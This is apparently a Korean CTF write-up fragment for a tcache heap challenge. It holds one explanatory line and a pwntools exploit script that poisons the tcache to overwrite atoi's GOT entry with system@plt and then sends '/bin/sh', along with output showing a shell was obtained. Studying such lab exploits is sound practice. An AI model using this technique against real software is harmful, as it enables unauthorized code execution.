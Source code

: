 atot got 에 system plt를 넣고 메뉴 선택할 때 /bin/sh를 넣어주면 쉘을 획득할 수 있다.

```python
from pwn import *

t = process('./tcache')

s = lambda a: t.sendlineafter('>',str(a))
#r = lambda : t.recvuntil('> ')
s(1)
s(4)
s(2)
pause()
t.sendline(p64(0x601060))
s(1)
s(1)
s(2)
pause()
t.sendline(p64(0x400690))
s('/bin/sh\x00')
t.interactive()
->
1.add
2.write
3.print
4.delete
> $ id
uid=1000(bskim)
```



#### 참고

https://dangokyo.me/2018/01/16/extra-heap-exploitation-tcache-and-potential-exploitation/